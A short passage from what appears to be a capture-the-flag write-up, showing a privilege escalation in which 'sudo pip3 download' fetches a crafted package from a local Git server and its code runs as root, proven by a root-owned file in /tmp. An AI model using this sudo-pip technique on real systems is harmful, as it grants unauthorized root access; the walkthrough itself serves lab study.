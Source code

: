 ![](/img/image-20230425133359609.png)

Now it works:



    john@only4you:~$ sudo /usr/bin/pip3 download http://127.0.0.1:3000/john/Test/raw/master/own_this_is_for_you-0.0.1.tar.gz
    Collecting http://127.0.0.1:3000/john/Test/raw/master/own_this_is_for_you-0.0.1.tar.gz
      Downloading http://127.0.0.1:3000/john/Test/raw/master/own_this_is_for_you-0.0.1.tar.gz (810 bytes)
      Saved ./own_this_is_for_you-0.0.1.tar.gz
    Successfully downloaded own-this-is-for-you



Now only that, but the code executed:



    john@only4you:~$ ls -l /tmp/0xdf 
    -rw-r--r-- 1 root root 0 Apr 25 17:54 /tmp/0xdf

